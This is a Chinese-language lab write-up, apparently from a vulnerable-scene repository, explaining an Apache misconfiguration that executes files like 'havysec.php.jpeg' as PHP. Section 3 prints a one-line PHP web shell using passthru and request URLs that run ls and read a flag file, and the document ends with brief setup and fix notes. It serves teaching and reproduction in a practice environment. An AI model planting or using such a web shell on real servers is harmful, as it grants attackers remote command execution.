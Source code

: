# <center>Apache 解析漏洞</center> #

<center>![apache](pictures/apache.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Apache配置原因导致的图片格式的后缀会被当成php文件进行执行。
* 影响版本： 版本无关

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;apache是开源的知名web服务器软件程序。

&emsp;&emsp;该漏洞主要的产生原因是配置不当。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

<center>![apache](pictures/1.png)</center>


&emsp;&emsp;上传一个文件`havysec.php.jpeg`。文件内容是`<?php passthru($_GET[bash]);?>`。  

<center>![apache](pictures/2.png)</center>


访问`ip:port/uploadfiles/havysec.php.jpeg?bash=ls`会发现执行了`ls`命令：

<center>![apache](pictures/3.png)</center>


访问 `"ip:port/uploadfiles/havysec.php.jpeg?bash=cat ../flag.php`再右键查看源代码得到flag值。

<center>![apache](pictures/4.png)</center>

### 源码解析

无  



## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 更改配置文件，启动Apache服务，访问首页即可。



### 4.3&emsp;漏洞复现 ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;正确配置apache环境  
